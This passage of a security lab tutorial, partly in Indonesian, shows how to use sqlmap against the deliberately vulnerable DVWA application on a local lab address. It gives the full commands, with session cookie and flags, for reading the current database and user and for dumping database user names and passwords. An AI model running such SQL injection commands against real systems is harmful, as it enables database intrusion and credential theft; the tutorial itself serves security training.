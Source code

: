    * ![](/assets/sqlmap.PNG)

2. Mendapatkan user database DVWA

   * **Langkah:**  
     1. Masukkan perintah sesuai dengan data yang didapat dari langkah sebelumnya:

     ```
        sqlmap -u <referal url> --cookie=<cookie> -b --current-db --current-user
     ```

     * -u, Target URL
     * --cookie, HTTP Cookie header
     * -b, Retrieve DBMS banner
     * --current-db, Retrieve DBMS current database
     * --current-user, Retrieve DBMS current user

   * ![](/assets/sqlmap 1.PNG)

3. Hasil sqlmap

   * Akan terlihat current-user dan current-database
   * ![](/assets/hasil sqlmap.PNG)

| **Section 11: Using SqlMap to Obtain Database Management Username and Password** |
| :--- |


1. Obtain Database Management Username and Password

   * **Notes\(FYI\):**
     * You must have completed [Lesson 4](http://www.computersecuritystudent.com/SECURITY_TOOLS/DVWA/DVWAv107/lesson4/index.html) to see the **db\_hacker **in Step 2.
     * Replace 192.168.1.106 with Fedora's IP address obtained in \(Section 3, Step 3\).
     * Replace \( **lpb5g4uss9kp70p8jccjeks621 **\) with your PHPSESSID obtained from \(Section 9, Step 10\).
   * **Instructions:**
     1. ./sqlmap.py -u "http:// 192.168.1.106 /dvwa/vulnerabilities/sqli/?id=1 & Submit=Submit" --cookie="PHPSESSID= **lpb5g4uss9kp70p8jccjeks621 **; security=low" --string="Surname" --users --password
        * -u, Target URL
        * --cookie, HTTP Cookie header
        * -string, Provide a string set that is always present after valid or invalid query.
        * --users, list database management system users
        * --password, list database management password for system users.
   * ![](http://www.computersecuritystudent.com/SECURITY_TOOLS/DVWA/DVWAv107/lesson7/index.100.jpg)
